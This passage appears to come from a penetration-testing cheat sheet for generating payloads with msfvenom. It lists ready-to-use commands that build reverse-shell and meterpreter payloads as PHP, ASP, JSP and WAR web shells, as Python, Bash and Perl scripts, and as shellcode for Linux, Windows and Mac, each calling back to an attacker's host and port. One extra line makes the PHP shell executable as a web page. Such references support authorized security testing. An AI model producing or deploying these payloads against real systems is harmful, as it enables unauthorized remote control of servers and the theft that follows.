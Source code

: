     OR

    `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

    Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

    `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

    _ASP_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

    _JSP_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

    _WAR_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

    **Scripting Payloads**

    _Python_

    `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

    _Bash_

    `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

    _Perl_

    `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

    **Shellcode**

    For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

    _Linux Based Shellcode_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Windows Based Shellcode_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Mac Based Shellcode_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

